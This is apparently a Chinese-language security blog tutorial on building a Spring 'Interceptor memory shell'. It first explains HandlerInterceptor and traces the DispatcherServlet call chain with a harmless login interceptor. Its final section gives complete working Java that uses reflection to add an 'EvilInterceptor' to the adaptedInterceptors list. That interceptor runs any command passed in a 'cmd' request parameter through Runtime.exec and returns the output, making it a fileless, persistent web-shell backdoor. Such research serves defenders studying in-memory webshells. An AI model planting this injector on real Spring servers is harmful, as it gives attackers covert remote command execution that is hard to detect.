# Spring内存马之Interceptor

## 前言

前面在学 Tomcat 内存马的时候，就已经接触到属于 Tomcat 的过滤器 Filter，而 Spring 下的拦截器 Interceptor 与之类似，主要用于拦截用户发起的请求并做对应的处理。其实这一思想并不陌生，我们在用户的登录校验，系统后台的权限校验等等功能点上经常见到。

Interceptor 内存马比之 Controller 内存马 更具有实战意义，在实际环境中，常常会遇到无论我们访问什么路由，都会因为没有登录而被拦截器跳转到`/login`路由的情况。

## Interceptor流程分析

我们先配置一个简单的`Interceptor`，定义`Interceptor`大致有两种方式：

- 实现`HandlerInterceptor`接口或者继承`HandlerInterceptor`接口的实现类；
- 实现`WebRequestInterceptor`接口或者继承`WebRequestInterceptor`接口的实现类

这里我们通过第一种方式来定义`Interceptor`，我们先看看`HandlerInterceptor`类代码


可以看到`HandlerInterceptor`类一共有三个方法，作用分别为：

- `preHandle()`：在 Controller 处理请求之前执行，返回`true`为放行，执行下一个拦截器，如果没有拦截器就执行 Controller 方法；返回`false`为不放行，不会执行 Controller 方法。
- `postHandle()`：在 Controller 处理请求之后、解析视图（例如 JSP）之前执行，如果拦截器定义了跳转的页面，则不会跳转 Controller 方法指定的页面。
- `afterCompletion()`：在 Controller 处理请求之后、解析视图之后执行，该方法可以完成一些处理日志之类的任务。

创建拦截器
```java
package com.study.springdemo.Interceptor;

import org.springframework.web.servlet.HandlerInterceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

/**
 * Created by dotast on 2022/12/6 11:10
 */
public class SpringInterceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception{
        System.out.println("SpringInterceptor init...");
        String url = request.getRequestURI();
        if (url.indexOf("/login") >=0){
            response.getWriter().write("Login page");
            response.getWriter().flush();
            response.getWriter().close();
            return true;
        }
        response.getWriter().write("Please login first");
        response.getWriter().flush();
        response.getWriter().close();
        return false;
    }
}
```

创建配置类
```java
package com.study.springdemo.Config;

import com.study.springdemo.Interceptor.SpringInterceptor;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;

/**
 * Created by dotast on 2022/12/6 11:24
 */
@Configuration
public class InterceptorConfig implements WebMvcConfigurer {

    @Override
    public void addInterceptors(InterceptorRegistry registry) {
        //addPathPatterns用于添加拦截路径
        //excludePathPatterns用于添加不拦截的路径
        registry.addInterceptor(new SpringInterceptor()).addPathPatterns("/*").excludePathPatterns("");
    }
}
```

创建控制器
```java
package com.study.springdemo.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

/**
 * Created by dotast on 2022/12/6 10:55
 */
@Controller
public class LoginController{
    @ResponseBody
    @RequestMapping("/login")
    public String Login(){
        return "Success";
    }

}
```

访问`/login`


访问`/aaaaaaaaa`


可以看到请求流程都按拦截器所设定的运行，代表拦截器配置成功。

接下来打上断点跟一下`Interceptor`的请求流程


看看此时的调用栈


是不是有点熟悉？是的，调用流程和 Filter 差不多，但不同的是最后处理交给了`DispatcherServlet#doDispatch()`，那么我们就从这里开始跟起


在`doDispatch()`方法中调用了`getHandler()`方法，我们跟进看看


可以看到这里遍历了`this.handlerMappings`迭代器获取`HandlerMapping`对象实例`mapping`，然后对每个`mapping`分别调用`getHandler()`方法，继续跟进`getHandler()`方法


接着又调用到了`getHandlerExecutionChain()`方法


可以看到通过`this.adaptedInterceptors`迭代器获取了所有`Interceptor`，其中包含我们自定义的`SpringInterceptor`拦截器，在最后通过`chain.addInterceptor()`方法将`Interceptor`添加到`HandlerExecutionChain`对象实例`chain`中，并 return 返回。

`getHandler()`方法的流程走完后，回到一开始的`doDispatch()`方法


可以看到此时的`mappedHandler`元素`handler`是我们编写的控制器的`Login()`方法，接着往下走调用了`applyPreHandle()`方法，继续跟进


可以看到最后遍历调用`Interceptor`的`preHandle()`拦截方法，根据前面的调用链，我们可以简单总结一次请求到应用层的步骤为：
```
HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Controller
```

## Interceptor内存马注入

跟完前面的调用链，接下来就是思考如何动态注入一个`Interceptor`内存马，我们还是简单梳理一下流程：

- 获取当前环境上下文
- 编写恶意`Interceptor`
- 注入恶意`Interceptor`

第一点我们在前面的`Controller`内存马注入已经提过，不再重复；第二点上文已经实现了，我们接下来讨论第三点。通过前面的分析我们不难发现，`Interceptor`的调用流程并不难，最关键在于`AbstractHandlerMapping`类的属性`adaptedInterceptors`上，我们只需要添加自定义的`Interceptor`到该集合中就可以。


所以还剩下一个问题就是需要知道`AbstractHandlerMapping`类的实例 bean name，在前面的`Controller`内存马注入的时候，我们分析过是`RequestMappingHandlerMapping`，这里贴上一个小笔记

> Spring 2.5 开始到 Spring 3.1 之前一般使用 `org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping` 映射器 ；
>
> Spring 3.1 开始及以后一般开始使用新的 `org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping` 映射器来支持`@Contoller`和`@RequestMapping`注解。
>
> 当然，也有高版本依旧使用旧映射器的情况。因此正常程序的上下文中一般存在其中一种映射器的实例 `bean`。又因版本不同和较多的接口等原因，手工注册动态 `controller` 的方法不止一种。

剩下的就是动手实现了，具体如下

```java
package com.study.springdemo.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.ArrayList;

/**
 * Created by dotast on 2022/12/6 16:21
 */
@Controller
public class InterceptorController {

    @ResponseBody
    @RequestMapping("/inject")
    public void InterceptorInject() throws Exception{
        // 获取上下文环境
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 获取adaptedInterceptors属性
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        Field adaptedInterceptorsField = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        adaptedInterceptorsField.setAccessible(true);
        ArrayList<Object> adaptedInterceptors = (ArrayList<Object>)adaptedInterceptorsField.get(abstractHandlerMapping);
        // 添加evilInterceptor
        EvilInterceptor evilInterceptor = new EvilInterceptor();
        adaptedInterceptors.add(evilInterceptor);

    }

    public class EvilInterceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            try{
                String cmd = request.getParameter("cmd");
                if(cmd != null){
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    ByteArrayOutputStream bao = new ByteArrayOutputStream();
                    byte[] bytes = new byte[1024];
                    int a = -1;
                    while((a = inputStream.read(bytes))!=-1){
                        bao.write(bytes,0,a);
                    }
                    response.getWriter().write(new String(bao.toByteArray()));
                }else {
                    response.sendError(404);
                }
                return true;
            }catch (Exception e){
                e.printStackTrace();
            }
            return false;
        }
    }
}
```

访问`/inject`路由


再访问`/`路由，成功执行命令

